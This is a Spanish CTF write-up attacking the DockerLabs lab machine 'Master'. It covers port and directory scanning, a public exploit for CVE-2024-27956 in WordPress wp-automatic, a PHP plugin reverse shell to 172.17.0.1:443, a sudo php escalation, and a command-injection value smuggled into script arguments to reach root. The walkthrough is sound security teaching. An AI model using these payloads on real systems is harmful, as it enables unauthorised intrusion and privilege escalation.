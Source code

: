 # Maquina Master

Lo primero que deberemos de hacer será escanear los posibles puertos que se encuentre abiertos en la máquina:

```shell 
nmap -p- --open -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```
![NMAP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto.png)

Vemos que únicamente tiene abierto un puerto, el 80, por lo que vamos a ver que hay en la página web:

![HOME](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto2.png)

No hay mucha cosa interesante, en el código fuente tampoco encontramos nada, sin embargo, podemos observar en la parte de abajo que nos dice que está utilizando wp-automatic 3.92.0, tendremos esto en cuenta ya que nos servirá en un futuro. Al no encontrar nada relevante realizaremos fuzzing web con gobuster:

```shell 
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![GOBUSTER](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto3.png)

Vemos que cuenta con un wordpress (lo podíamos deducir por el wp-automatic de antes también). Si nos poníamos encima de alguno de los diferentes cursos que había veíamos que había un usuario “Mario”, por lo que lo normal sería intentar obtener su contraseña y entrar al panel de administración de Wordpress, os adelanto que no es la solución ya que lo intente y no conseguí obtener su contraseña.

Ahora es cuando entra en juego el wp-automatic de antes, si buscamos información acerca de esta versión en google acompañado de la palabra exploit vemos esto:

![WEB](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto4.png)

https://thehackernews.com/2024/04/hackers-exploiting-wp-automatic-plugin.html

Si accedemos a la web vemos que aparece un CVE que puede que podamos utilizar:

![WEB2](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto5.png)

Si buscamos el CVE en Google vemos que hay un exploit en github, así que vamos a probar si funciona:

https://github.com/diego-tella/CVE-2024-27956-RCE

Si seguimos los pasos que nos indica vemos que tras ejecutar el exploit nos crea un usuario con nombre “eviladmin” y con contraseña “admin”:

![CVE](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto6.png)

Intentamos acceder con el usuario que nos ha creado el exploit y ole, ya estamos dentro del panel de administración. Ahora vamos a intentar subir una reverse shell en forma de plugin:

![WP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto7.png)

![WP2](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto8.png)

Una vez aquí vemos que unicamente nos deja subir archivos con extensión .zip, por lo que vamos a investigar como poder subir una reverse shell en .zip a un wordpress:

![WEB3](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto9.png)

https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

Dentro de la página copiamos el contenido que nos pone y lo metemos en un fichero con nombre reverse.php (puedes poner el que quieras).

```shell
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

![ZIP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto10.png)

Una vez tenemos el archivo en .zip vamos a intentar subirlo a ver que ocurre:

![PLUGIN](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto11.png)

Vemos que se ha subido correctamente y que nos da la opción de activarlo, antes de activarlo debemos de ponernos en escucha por el puerto que hayamos configurado para poder recibir la reverse shell:

![PLUGIN](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto12.png)

Ya estamos dentro de la máquina, por lo que primero que debermeos de hacer será realizar un tratamiento de la tty:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

Si ejecutamos el comando sudo -l vemos que podemos ejecutar php como el usuario pylon, por lo que vamos a buscar como hacerlo en GTFOBins:

https://gtfobins.github.io/gtfobins/php/#sudo

```shell
sudo -u pylon php -r "system('/bin/bash');"
```

Una vez lo ejecutamos nos convertimos en el usuario pylon, ahora repetimos el proceso y vemos que podemos ejecutar un script como el usuario “mario”. Este script nos pide introducir un parámetro, por lo que podemos intentar introducir un /bin/bash para ver si obtenemos la bash como el usuario mario:

```shell
a[$(/bin/bash >&2)]
```
![EP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto13.png)

Y ahí esta, somos el usuario mario. Ahora si ejecutamos de nuevo sudo -l vemos que podemos ejecutar otro script como root, ese script también nos pide un parámetro por lo que vamos a intentar reutilizar lo mismo que hemos hecho antes para obtener la escalada:

![EP2](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto14.png)

![EP7](https://github.com/Isma-yo/photos/blob/main/Activado.jpg)

